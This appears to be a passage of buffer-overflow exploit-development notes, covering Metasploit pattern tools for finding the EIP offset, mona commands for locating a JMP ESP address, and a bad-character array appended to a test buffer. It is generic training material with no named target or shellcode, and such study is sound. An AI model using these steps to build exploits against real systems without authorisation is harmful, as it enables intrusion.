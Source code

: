 ## Finding the Offset

### Pattern Create/Offset
```bash
# Generate pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000

# Find offset after crash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [EIP_VALUE]
```

### Verify EIP Control
```python
offset = 1978
buffer = "A" * offset + "BBBB" + "C" * 500
```

## Controlling EIP

### Finding JMP ESP
1. Use `!mona modules` to find unprotected modules
2. Look for modules with no memory protections (ASLR, DEP, etc.)
3. Find JMP ESP instruction: `!mona find -s "\xff\xe4" -m module.dll`

### Example
```python
# Little-endian format
jmp_esp = "\xaf\x11\x50\x62"  # 0x625011af
buffer = "A" * 1978 + jmp_esp + "\x90" * 16
```

## Finding Bad Characters

### Bad Character Generator
```python
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
           "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
           "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
           "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
           "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
           "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
           "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
           "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
           "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
           "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
           "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
           "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
           "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
           "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
           "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
           "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "A" * 1978 + "BBBB" + badchars
```

